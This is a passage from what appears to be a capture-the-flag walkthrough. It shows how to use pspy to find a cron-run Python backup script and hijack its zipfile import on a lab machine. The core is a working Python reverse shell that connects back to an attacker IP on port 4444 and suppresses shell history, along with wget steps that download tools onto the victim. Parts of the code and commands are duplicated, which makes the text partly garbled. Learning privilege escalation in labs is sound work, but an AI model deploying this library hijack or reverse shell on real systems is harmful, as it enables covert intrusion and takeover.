


4.1 pspy2 – Unprivileged Linux Process Snooping
“pspy” is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea. More info here.
a) Download “pspy32” from here and save it on “/var/www/html”.
$ sudo cp pspy32 /var/www/html/
b) Create a Server on your Kali Machine.
To do that I used Python to start the SimpleHTTPServer on port 80.
$python -m SimpleHTTPServer 80
c) On the victim machine go to “tmp” direstory and run the following commands.
thanos@nemesis:/tmp$ cd /tmp
thanos@nemesis:/tmp$ wget http://192.168.12.2/pspy32
thanos@nemesis:/tmp$ chmod +x pspy32
thanos@nemesis:/tmp$ wget http://192.168.12.2/pspy32
thanos@nemesis:/tmp$ chmod +x pspy32
Output:

d) Run “pspy32”
In the script “backup,py” you can see that it imports “zipfile” module for creating zip files.
Output:

e) We can hijack this script by creating a malicious “zipfile.py” in the same directory with the following contents:
import os
import pty
import socket
lhost = "192.168.12.2"
lport = 4444
ZIP_DEFLATED = 0
class ZipFile:
def close(*args):
return
def write(*args):
return
def __init__(self, *args):
return
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
import pty
import socket
lhost = "192.168.12.2"
lport = 4444
ZIP_DEFLATED = 0
class ZipFile:
def close(*args):
return
def write(*args):
return
def __init__(self, *args):
return
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
f) Create the “zipfile.py” file.
thanos@nemesis:~$ nano zipfile.py
When the script will be executed, instead of using the original “zipfile” module, it will import our malicious “zipfile.py” and our reverse shell will also be executed.